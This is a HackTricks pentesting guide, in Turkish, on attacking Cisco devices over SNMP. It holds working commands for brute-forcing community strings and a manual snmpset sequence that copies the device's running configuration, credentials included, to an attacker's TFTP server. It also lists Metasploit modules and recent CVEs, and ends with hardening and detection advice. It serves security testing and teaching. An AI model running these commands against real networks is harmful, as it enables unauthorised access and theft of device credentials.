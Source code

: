 # Cisco SNMP

{{#include ../../banners/hacktricks-training.md}}

## Cisco Ağlarının Pentestingi

**SNMP**, genel mesajlar için **161/UDP** ve tuzak mesajları için **162/UDP** ile UDP üzerinden çalışır. Bu protokol, SNMP ajanları ve yöneticileri arasında iletişimi sağlayan düz metin "şifreler" olarak işlev gören *topluluk dizeleri*na dayanır. Bu dizeler, erişim seviyesini belirler; özellikle **sadece okuma (RO) veya okuma-yazma (RW) izinleri**.

Klasik—ancak hala son derece etkili—bir saldırı vektörü, **topluluk dizelerini brute-force** yaparak kimlik doğrulaması yapılmamış bir kullanıcıdan cihaz yöneticisine (RW topluluğu) yükselmektir. Bu görev için pratik bir araç [**onesixtyone**](https://github.com/trailofbits/onesixtyone):
```bash
onesixtyone -c community_strings.txt -i targets.txt
```
Diğer hızlı seçenekler Nmap NSE betiği `snmp-brute` veya Hydra'nın SNMP modülüdür:
```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```
---

### SNMP üzerinden yapılandırma dökümü (CISCO-CONFIG-COPY-MIB)
Eğer bir **RW community** elde ederseniz, CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`) kullanarak çalışmakta olan yapılandırmayı/başlangıç yapılandırmasını *CLI erişimi olmadan* bir TFTP/FTP sunucusuna kopyalayabilirsiniz. İki yaygın yaklaşım şunlardır:

1. **Nmap NSE – `snmp-ios-config`**
```bash
nmap -sU -p161 --script snmp-ios-config \
--script-args creds.snmp=private 192.168.66.1
```
Script, kopyalama işlemini otomatik olarak düzenler ve yapılandırmayı stdout'a yazdırır.

2. **Manuel `snmpset` dizisi**
```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
Satır tanımlayıcıları *tek seferliktir*; beş dakika içinde yeniden kullanılması `inconsistentValue` hatalarını tetikler.

Dosya TFTP sunucunuzda olduğunda, kimlik bilgilerini (`enable secret`, `username <user> secret`, vb.) inceleyebilir veya hatta değiştirilmiş bir yapılandırmayı cihaza geri gönderebilirsiniz.

---

### Metasploit araçları

* **`cisco_config_tftp`** – aynı MIB'i kötüye kullanarak TFTP üzerinden running-config/startup-config indirir.
* **`snmp_enum`** – cihaz envanter bilgilerini, VLAN'ları, arayüz açıklamalarını, ARP tablolarını vb. toplar.
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```
---

## Son Cisco SNMP zafiyetleri (2023 – 2025)
Satıcı tavsiyelerini takip etmek, bir angajman içindeki *zero-day-to-n-day* fırsatlarını belirlemek için faydalıdır:

| Yıl | CVE | Etkilenen özellik | Etki |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMP alt sistemi | Özel paket, IOS/IOS-XE (v1/v2c/v3) üzerinde kimlik doğrulamalı *DoS* (reload) ile sonuçlanır.   |
| 2024 | CVE-2024-20373 | IPv4 ACL yönetimi | Yanlış yapılandırılmış **extended** ACL'ler sessizce *başarısız* olur, geçerli bir topluluk/kullanıcı bilindiğinde kimlik doğrulaması yapılmamış SNMP sorgulamalarına izin verir.   |
| 2025 | (henüz CVE yok) | SNMPv3 yapılandırma kısıtlaması atlatma | Geçerli v3 kullanıcı, reddedilmesi gereken adreslerden sorgulama yapabilir.   |

Sömürülebilirlik genellikle topluluk dizesine veya v3 kimlik bilgilerine sahip olmaya bağlıdır—bunları zorlamanın hala geçerli olmasının bir başka nedeni.

---

## Güçlendirme & Tespit ipuçları

* Düzeltme yapılmış bir IOS/IOS-XE sürümüne yükseltin (yukarıdaki CVE için Cisco tavsiyesine bakın).
* v1/v2c yerine **SNMPv3**'ü `authPriv` (SHA-256/AES-256) ile tercih edin.
```
snmp-server group SECURE v3 priv
snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
```
* SNMP'yi bir yönetim VRF'sine bağlayın ve **standart** numaralı IPv4 ACL'leri ile **kısıtlayın** (uzatılmış adlandırılmış ACL'ler risklidir – CVE-2024-20373).
* **RW topluluklarını** devre dışı bırakın; operasyonel olarak gerekli ise, bunları ACL ve görünümlerle sınırlayın:
`snmp-server community <string> RW 99  view SysView`
* Aşağıdakileri izleyin:
- UDP/161 zirveleri veya beklenmedik kaynaklar (SIEM kuralları).
- `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` olayları, dış bant yapılandırma değişikliklerini gösterir.
* Belirli DoS vektörlerini azaltmak için **SNMPv3 günlüğünü** etkinleştirin ve `snmp-server packetsize 1500` ayarını yapın.

---

## Referanslar

- Cisco: *Cisco Cihazlarına SNMP Kullanarak Yapılandırmaları Kopyalama*
- Cisco Güvenlik Tavsiyesi *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)

{{#include ../../banners/hacktricks-training.md}}
